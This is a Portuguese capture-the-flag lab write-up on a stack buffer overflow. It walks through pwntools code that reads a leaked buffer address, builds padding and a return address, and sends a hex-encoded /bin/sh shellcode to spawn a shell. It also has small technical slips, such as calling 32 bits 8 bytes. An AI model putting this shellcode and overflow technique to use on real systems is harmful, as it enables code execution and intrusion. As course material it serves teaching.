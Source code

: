 # CTF - WEEK 8[](url)

## Challenge #2

- Tendo uma stack com permissão de execução e um buffer overflow. O que será que se pode fazer?

**1.** Ao executar o ficheiro "program" (usando o _checksec_), podemos verificar que este imprime na shell o endereço da variável buffer. Iremos usar este valor mais tarde.

![Terminal print - execution of program file](CTFs/Img/Semana8-Desafio2/1.execute_program.png)

![Terminal print - buffer address](CTFs/Img/Semana8-Desafio2/2.gdb_buffer_address.png)

**2.** Ao usar o ficheiro _exploit-example.py_ de outros CTFs, podemos adaptar o mesmo para que funcione no CTF desta semana. <br>Explicação do código (do ficheiro "exploit-example.py"):

    **2.1.** Começamos por retirar o valor do endereço do buffer que foi impresso no passo 1) (usamos Regex para obter o endereço de memória).

    ```py
    txt = p.recvuntil(b":").decode()
    addr = re.search('0x(.+?).\n', txt).group(1)
    ```

    **2.2.** Transformar o código hexadecimal (corresponde à shell) num array de bytes.

    ```py
    buf = bytearray.fromhex(addr)
    buf.reverse()
    ```

    **2.3.** Criar o frame pointer (váriavel "fp"). Sabemos que o frame pointer encontra-se na stack logo a seguir às variáveis locais. Este também tem um tamanho de 32 bits (ou 8 bytes) (o tamanho do frame pointer depende da arquitetura da máquina). Sendo assim, criamos um número hexadecimal constituído por oito 0's em hexadecimal.

    ![drawing - stack memory](CTFs/Img/Semana8-Desafio2/4.stack.png)

    ```py
    shellcode = bytearray.fromhex("31c050682f2f7368682f62696e89e3505389e1b00bcd80")
    fp = bytearray.fromhex("0"*8)
    ```

    **2.4.** Criar a "string" final que será enviada para o exploit.

    ```py
    finalString = b"a"*77 + fp*2 + buf
    ```

    **2.5.** Mandar esta string para a shellcode. Para conseguirmos fazer isso teremos de colocar a string a seguir ao código hexadecimal referente à shell.

    ```py
    p.sendline(shellcode + finalString)
    ```

### Conclusão

Tentamos fazer overwrite do endereço de retorno da função colocando o código referente à shellcode (shellcode). Quando este retornar este enderenço na função, vai executar o código que estiver nesse endereço, ou seja, vai executar as instruções na shellcode (mas em código).
